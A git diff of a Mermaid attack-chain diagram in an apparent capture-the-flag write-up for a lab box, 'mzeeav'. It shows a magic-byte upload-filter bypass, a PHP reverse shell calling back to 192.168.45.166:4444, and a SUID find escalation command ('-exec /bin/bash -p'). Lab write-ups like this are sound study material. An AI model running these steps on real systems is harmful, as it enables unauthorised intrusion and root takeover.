

One commit to morimori-dev/morimori-dev.github.io changed the diagram in _posts/2026-02-25-pg-mzeeav.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 4 other files, not shown here.

````diff
--- a/_posts/2026-02-25-pg-mzeeav.md
+++ b/_posts/2026-02-25-pg-mzeeav.md
@@ -240,28 +306,28 @@
 ```mermaid
 flowchart LR
   subgraph SCAN["Scan"]
     direction TB
     A["Rustscan / Nmap\n22/tcp SSH\n80/tcp HTTP Apache 2.4.56"]
   end
 
   subgraph INITIAL["Initial Foothold"]
     direction TB
-    B["upload.php analysis\nMagic-byte check only first 2 bytes\nNo extension or MIME validation"]
-    C["Created rev.php with MZ bytes\nprintf '\\x4D\\x5A' > rev.php\nfsockopen to 192.168.45.166:4444"]
-    D["Uploaded payload\nBypassed filter by PE disguise"]
-    E["Got reverse shell\nnc -lvnp 4444\nwww-data@mzeeav"]
-    F["Retrieved local.txt\n/home/avuser/local.txt\n6eb7d0e197ab9ac2ef205bd68cef6864"]
+    B["Analyzed upload validation\nMagic-byte check on first 2 bytes only\nNo extension or MIME verification"]
+    C["Created MZ-prefixed rev.php\nprintf '\\x4D\\x5A' > rev.php\nfsockopen 192.168.45.166:4444"]
+    D["Uploaded payload and bypassed filter\nExecuted via /upload/rev.php"]
+    E["Caught reverse shell\nwww-data@mzeeav"]
+    F["Read local.txt\n/home/avuser/local.txt"]
     B --> C --> D --> E --> F
   end
 
   subgraph PRIVESC["Privilege Escalation"]
     direction TB
-    G["Ran lse.sh\nUncommon SUID: /opt/fileS\n---s--s--x root root"]
-    H["Identified fileS behavior\n--help output matched find"]
-    I["GTFOBins: find SUID\n./fileS . -exec /bin/bash -p \\; -quit\nbash-5.1# id -> root"]
-    J["Retrieved proof.txt\n/root/proof.txt\n31c145840f70f2874b049253e763e9ce"]
+    G["Found uncommon SUID binary\n/opt/fileS"]
+    H["Confirmed find-like behavior\n--help output and SUID bits"]
+    I["GTFOBins find technique\n./fileS . -exec /bin/bash -p \\; -quit"]
+    J["Read /root/proof.txt\n31c145840f70f2874b049253e763e9ce"]
     G --> H --> I --> J
   end
 
   SCAN --> INITIAL --> PRIVESC
 ```
````
